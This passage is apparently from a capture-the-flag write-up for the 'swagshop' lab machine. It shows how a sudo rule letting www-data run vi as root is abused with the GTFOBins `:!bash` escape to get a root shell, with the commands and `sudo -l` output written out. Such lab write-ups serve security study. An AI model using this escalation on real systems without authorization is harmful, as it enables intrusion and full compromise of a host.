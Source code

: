 		```
		![]({{ page.img_path }}Pasted%20image%2020220912213609.png)
		![]({{ page.img_path }}Pasted%20image%2020220912214108.png)
		

	

# Privilege Escalation

## Root - Via SUDO GTFOBins
1. Check `www-data` sudo access
	```
	www-data@swagshop:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on swagshop:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on swagshop:
	    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
	```
	- `vi` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/vi/#sudo)
2. Using `vi` to privilege escalate
	- How does it work?
		- If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges, we are able to spawn a shell w/ `!bash`

	1. Privilege Escalate
		```
		www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/*
		# Type :!bash
		```
	2. Root Obtained
		![]({{ page.img_path }}Pasted%20image%2020220912205624.png)

